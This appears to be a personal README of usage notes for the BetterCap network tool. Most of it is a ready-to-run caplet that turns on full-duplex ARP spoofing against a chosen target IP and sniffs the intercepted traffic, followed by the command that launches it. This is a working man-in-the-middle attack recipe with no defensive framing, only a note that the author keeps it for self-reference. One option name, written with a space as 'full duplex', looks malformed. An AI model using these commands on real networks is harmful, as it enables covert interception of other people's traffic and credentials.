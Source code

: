 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />
</p>

## To start with the program

bettercap iface **name_of_interface**

## spoof.cap

net.probe on
</br>set arp.spoof.full duplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## bettercap caplet

Copy the commands from **spoof.cap**, then edit it with the **target_IP** and save it in some directory. Now, move to the particular directory and run the command below:
</br>bettercap -iface **name_of_interface** -caplet spoof.cap

## Decleration

I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.
